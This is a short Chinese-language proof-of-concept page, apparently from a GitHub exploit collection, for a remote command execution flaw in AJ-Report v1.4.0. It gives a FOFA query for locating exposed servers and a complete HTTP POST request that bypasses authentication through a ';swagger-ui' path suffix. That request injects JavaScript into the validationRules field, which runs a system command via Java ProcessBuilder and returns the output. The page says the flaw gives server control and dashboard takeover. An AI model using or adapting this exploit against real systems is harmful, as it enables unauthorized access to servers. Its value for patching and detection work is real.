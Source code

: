 ## AJ-Report开源数据大屏存在远程命令执行漏洞

该平台可以通过post方式在validationRules参数对应值中进行命令执行，可以获得服务器权限，登陆管理后台接管大屏。如果被不法分子利用，书写反动标语，危害后果十分严重。

## 影响版本
```
最新版本v1.4.0
```

## fofa
```
title="AJ-Report"
```

## poc
```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

![image](https://github.com/wy876/POC/assets/139549762/8e96cef4-ea6f-4600-b622-9deb360ae42e)


## 漏洞来源
- https://gitee.com/anji-plus/report/issues/I9HCB2
